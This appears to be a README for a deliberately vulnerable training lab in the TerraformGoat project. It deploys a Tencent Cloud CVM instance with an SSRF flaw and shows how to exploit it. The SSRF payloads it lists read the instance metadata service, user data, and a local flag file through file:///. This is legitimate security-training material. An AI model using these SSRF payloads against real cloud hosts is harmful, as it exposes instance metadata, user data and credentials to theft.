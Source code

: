 # Tencent Cloud CVM SSRF Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the Tencent Cloud CVM SSRF vulnerability environment.

After building the environment with Terraform, users can obtain metadata and user data and other information on CVM through the SSRF vulnerabilities.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/tencentcloud/cvm/cvm_ssrf/
```

Edit the `terraform.tfvars` file and write your `tencentcloud_secret_id` and `tencentcloud_secret_key` in the file

```shell
vim terraform.tfvars
```

> You can create and view your SecretKey on the [API Key Management](https://console.cloud.tencent.com/cam/capi) of the Tencent Cloud console

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

![img](../../../images/1651912048.png)

After the environment is set up, You can see the access address of the scenario at Outputs, then access to the browser.

> Because the scenario takes some time to build, if your browser cannot access this site, you can wait a few minutes and access it again.

## Vulnerability Utilization

On CVM with SSRF vulnerabilities, we can use SSRF to read CVM metadata, user data and other information.

read metadata

```shell
http://metadata.tencentyun.com/latest/meta-data/
```

![img](../../../images/1651912129.png)

read user data

> The premise is that the target has been configured with user data, otherwise will be disconnected.

```shell
http://metadata.tencentyun.com/latest/user-data/
```

![img](../../../images/1651912150.png)

In the user data information, you can see that there is a flag file in the root directory of the scenario, try to use SSRF to read this file.

```shell
file:///flag69152201.txt
```

![img](../../../images/1651825032.png)

Successfully read the flag file.

## Destroy the environment

```shell
terraform destroy
```
